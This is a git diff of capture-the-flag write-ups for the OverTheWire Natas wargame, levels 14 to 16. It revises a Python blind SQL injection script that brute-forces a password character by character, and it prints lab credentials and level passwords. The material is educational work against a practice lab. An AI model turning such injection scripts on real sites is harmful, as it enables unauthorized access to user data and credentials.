

Natas: level14 to level15

Changed region(s): [[0.0, 0.0, 0.9673, 1.0]]

diff --git a/Natas/Level14 to Level15/README.md b/Natas/Level14 to Level15/README.md
@@ -36,20 +36,23 @@ HEADERS["Authorization"] = \
 "Basic bmF0YXMxNTpUVGthSTdBV0c0aURFUnp0QmNFeUtWN2tSWEgxRVpSQg=="
 HEADERS["Content-Type"] = "application/x-www-form-urlencoded"
 
-# The template for the blind sql injection
-DATA = "username=natas16\" and password like \"________________________________\";#"
+# The template for the blind sql injection.
+# Note: operator 'like binary' is for case-sensitive (very important)
+DATA = "username=natas16\" and password like binary \"________________________________\";#"
 
 password = ""
 
 # Brute force on the password in O(n^2) when `n` is len(digits + ascii_letters)
 while(len(password) < 32):
+    # get the current index for brute force
     index = DATA.find("_")
+    
     for char in digits + ascii_letters:
-        
         # update the current char
         DATA = DATA[:index] + char + DATA[index+1:]
         response = post(url=URL, headers=HEADERS, data=DATA)
         
+        # check if the current letter is correct.
         if "This user exists" in response.text:
             password += char
             print("password: "+ password.ljust(32, "_"))
@@ -63,5 +66,5 @@ Output is:
 
 ## Password for the next level:
 ```
-trd7izrd5gatjj9pkpeuaolfejhqj32v
+TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V
 ```

diff --git a/Natas/Level15 to Level16/README.md b/Natas/Level15 to Level16/README.md
@@ -1,0 +1,13 @@
+# Level 15 → Level 16
+
+## Details
+Username: `natas16`<br />
+Password: `trd7izrd5gatjj9pkpeuaolfejhqj32v`<br />
+URL:      http://natas16.natas.labs.overthewire.org
+
+## Solution
+
+## Password for the next level:
+```
+
+```
